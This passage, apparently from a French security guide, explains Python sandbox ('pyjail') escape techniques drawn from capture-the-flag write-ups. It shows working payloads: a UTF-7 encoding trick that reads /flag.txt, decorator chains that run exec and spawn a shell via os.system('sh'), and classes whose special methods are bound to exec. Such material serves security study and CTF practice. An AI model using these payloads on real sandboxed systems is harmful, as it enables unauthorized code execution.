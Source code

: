 Dans [**ce compte-rendu**](https://blog.arkark.dev/2022/11/18/seccon-en/#misc-latexipy), l'UTF-7 est utilisé pour charger et exécuter du code Python arbitraire à l'intérieur d'un sandbox apparent :
```python
assert b"+AAo-".decode("utf_7") == "\n"

payload = """
# -*- coding: utf_7 -*-
def f(x):
    return x
    #+AAo-print(open("/flag.txt").read())
""".lstrip()
```
Il est également possible de le contourner en utilisant d'autres encodages, par exemple `raw_unicode_escape` et `unicode_escape`.

## Exécution de Python sans appels

Si vous êtes dans une prison Python qui **ne vous permet pas de faire des appels**, il existe encore des moyens d'**exécuter des fonctions, du code** et des **commandes** arbitraires.

### RCE avec [décorateurs](https://docs.python.org/fr/3/glossary.html#term-decorator)
```python
# From https://ur4ndom.dev/posts/2022-07-04-gctf-treebox/
@exec
@input
class X:
    pass

# The previous code is equivalent to:
class X:
    pass
X = input(X)
X = exec(X)

# So just send your python code when prompted and it will be executed


# Another approach without calling input:
@eval
@'__import__("os").system("sh")'.format
class _:pass
```
### RCE en créant des objets et en surchargeant

Si vous pouvez **déclarer une classe** et **créer un objet** de cette classe, vous pouvez **écrire/écraser différentes méthodes** qui peuvent être **déclenchées** **sans** **avoir besoin de les appeler directement**.

#### RCE avec des classes personnalisées

Vous pouvez modifier certaines **méthodes de classe** (_en écrasant les méthodes de classe existantes ou en créant une nouvelle classe_) pour les faire **exécuter un code arbitraire** lorsqu'elles sont **déclenchées** sans les appeler directement.
```python
# This class has 3 different ways to trigger RCE without directly calling any function
class RCE:
    def __init__(self):
        self += "print('Hello from __init__ + __iadd__')"
    __iadd__ = exec #Triggered when object is created
    def __del__(self):
        self -= "print('Hello from __del__ + __isub__')"
    __isub__ = exec #Triggered when object is created
    __getitem__ = exec #Trigerred with obj[<argument>]
```